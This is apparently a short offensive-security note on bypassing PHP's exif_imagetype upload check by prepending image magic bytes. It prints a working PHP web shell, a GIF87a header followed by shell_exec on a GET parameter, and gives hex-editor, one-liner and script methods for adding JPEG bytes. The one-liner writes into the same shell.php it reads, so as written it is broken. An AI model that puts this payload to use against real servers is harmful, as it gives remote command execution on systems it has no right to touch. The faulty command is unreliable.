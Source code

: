 To bypass exif_imagetype function in PHP, you can append the appropriate ISO code to the beginning of the file.

This works as the exif_imagetype checks the magic header of the file instead of the extension.

You can confirm if the hexdump heading matches the given ISO code by using [[xxd]] in Linux

[List of all file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

> [!example]
> Here we are bypassing an image upload that expects JPEG file
> ```php
> GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
> ```

In this case, the bytes that make up the magic headers (`47 49 46 38 37 61`) are all in the ASCII-readable range. But what if we went with JPG and had to prepend the (ASCII-unreadable) characters `FF D8 FF EE`?

You have a few different options to do this:

- You can a hex editor like [Hex Fiend](https://hexfiend.com/?ref=learnhacking.io) (Mac) to add the additional bytes, by copy/pasting the bytes into the hex side of the editor.
- Or you can use the command line: `(echo -n -e '\xff\xd8\xff\xee'; cat shell.php) > shell.php`
- Or you can use [a script like this](https://github.com/AlessandraZullo/shellImage/blob/master/shellImage.py?ref=learnhacking.io).